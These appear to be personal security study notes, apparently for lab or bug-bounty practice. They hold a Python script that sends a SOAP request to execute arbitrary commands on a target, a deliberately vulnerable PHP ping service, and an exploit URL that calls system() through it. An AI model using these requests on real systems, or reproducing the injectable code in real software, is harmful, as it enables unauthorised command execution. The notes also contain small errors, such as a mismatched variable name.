 ```python
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    text = requests.post(f"http://{tgt}:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content.decode()
    resultRegex = re.compile(r'<result>(.*\n+)*<\/result>')
    mo = resultRegex.search(text)
    if mo is not None:
        print(mo.group()[8:-10])
    else:
        print(text)
```


## Command Injection

Imagine a connectivity checking service like this:
```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

It's the secondp art of the code that is vulnerable to injection here. The server path is put into an array (by the ridiculously named `explode()` function. ) and then call_user_func_array() is used to execute. The first part of the path becomes the command and the second part becomes  the command.

Explode funciton defn: `explode(string $separator, string $string, int $limit = PHP_INT_MAX): array`

This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

## Attacking WordPress "xmlrpc.php"

See [[Cybersecurity/Bug Bounty Hunter/WordPress xmlrpc page\|WordPress xmlrpc page]] and [[Cybersecurity/Bug Bounty Hunter/Hacking WordPress\|Hacking WordPress]].
